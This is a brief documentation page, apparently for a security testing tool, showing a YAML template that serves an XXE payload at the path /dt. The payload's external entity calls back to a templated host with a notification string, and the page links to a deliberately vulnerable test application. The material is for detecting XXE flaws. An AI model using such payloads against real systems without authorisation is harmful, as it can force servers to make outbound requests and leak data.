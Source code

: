 ```yaml
---
title: XXE System
description: More XXE
weight: 1
pattern: /dt$
is_final: true
data:
  headers:
    Content-Type: text/xml
  body: |-
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://{{ .Host }}/{{ .NotifyString }}/xxe-test" >
    ]>
    <foo>&xxe;</foo>

---
```


### /dt

A vulnerable application for testing is in [../../../../cmd/xodbox-validator](../../../../cmd/xodbox-validator)

